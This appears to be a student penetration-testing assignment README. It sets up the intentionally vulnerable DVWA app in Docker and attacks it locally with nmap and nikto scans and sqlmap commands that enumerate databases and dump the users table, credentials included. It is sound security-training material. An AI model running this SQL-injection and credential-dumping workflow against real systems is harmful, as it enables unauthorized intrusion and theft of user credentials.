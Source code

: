 # Week-2 VAPT Assignment 

## Objective
The goal of this assignment is to simulate a **Vulnerability Assessment & Penetration Test (VAPT)** on the Damn Vulnerable Web Application (**DVWA**) running in Docker.  
We focus on identifying, exploiting, and documenting **SQL Injection vulnerabilities** following a structured methodology.

---

## ⚙ Environment Setup

**Start DVWA in Docker:**
```bash
sudo docker run -it -p 8080:80 vulnerables/web-dvwa
```
## Verify:
```bash
sudo docker ps
# Screenshot: ./screenshots/01_docker_running.png
```
## Recon / Scanning
Port & service:
```bash
nmap -sV -p- localhost -oN logs/nmap_full.txt
nmap -sV -p 8080 localhost -oN logs/nmap_8080.txt
# Screenshot: ./screenshots/02_nmap_scan.png

```
Web scan:
```bash
nikto -h http://localhost:8080 -o logs/nikto.txt
# Screenshot: ./screenshots/03_nikto_scan.png
```

## Exploitation (SQLi)
Set DVWA security to low in the web UI and get PHPSESSID cookie, then:
DB enumeration:
```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session>; security=low" --batch --dbs \
  -o logs/sqlmap_dbs.txt
# Screenshot: ./screenshots/04_sqlmap_dbs.png
```
List tables:
```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session>; security=low" -D dvwa --tables --batch \
  -o logs/sqlmap_tables.txt
# Screenshot: ./screenshots/05_sqlmap_tables.png
```
Dump users:
```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session>; security=low" -D dvwa -T users --dump --batch \
  -o logs/sqlmap_dump.txt
# Screenshot: ./screenshots/06_sqlmap_dump.png
```








